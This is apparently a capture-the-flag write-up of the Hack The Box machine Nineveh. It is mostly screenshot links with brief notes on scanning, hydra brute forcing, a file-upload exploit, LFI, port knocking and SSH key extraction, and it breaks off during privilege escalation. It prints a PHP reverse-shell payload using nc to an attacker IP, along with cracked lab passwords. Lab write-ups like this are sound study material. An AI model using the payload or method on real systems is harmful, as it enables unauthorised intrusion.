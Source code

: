 # Nineveh - 10.10.10.43

Created: June 4, 2021 1:33 PM

nmap:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled.png)

'admin' user :

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%201.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%201.png)

gobuster found /db folder with the following login page (and error):

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%202.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%202.png)

huge info file found at info.php:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%203.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%203.png)

another login page:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%204.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%204.png)

user: amrois

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%205.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%205.png)

login page vulnerable to user enumaration:

 

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%206.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%206.png)

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%207.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%207.png)

hydra password brute force on https://10.10.10.43/db:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%208.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%208.png)

password: password123

exploit:

[https://www.exploit-db.com/exploits/24044](https://www.exploit-db.com/exploits/24044)

we can upload a file of our own:

ninevehNotes.php

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4111 >/tmp/f"); ?>
```

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%209.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%209.png)

we need **LFI** to run the uploaded script .

hydra password brute force on [http://10.10.10.43/department](http://10.10.10.43/department) :

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2010.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2010.png)

password:1q2w3e4r5t

after log in we able to LFI:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2011.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2011.png)

our listener:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2012.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2012.png)

could not find anything there to PE. 

found ssh listening port:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2013.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2013.png)

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2014.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2014.png)

according to **/etc/knockd.conf** there's iptables rules for port knock that opens ssh:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2015.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2015.png)

to open it - send tcp packet to ports 571 then 290 then 911:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2016.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2016.png)

now need ssh creds. 

it does not support creds:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2017.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2017.png)

we need its key.

found bizarre image before with gobuster:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2018.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2018.png)

binwalk it:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2019.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2019.png)

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2020.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2020.png)

private ssh key:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2021.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2021.png)

ssh with it to amrois:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2022.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2022.png)

files that create every minute or so:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2023.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2023.png)

with pspy we can see there is a strange binary running every minute:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2024.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2024.png)

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2025.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2025.png)

create file in /tmp/update:

![Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2026.png](Nineveh%20-%2010%2010%2010%2043%202b30dcd527a94ab6b1033a9daf72fdf9/Untitled%2026.png)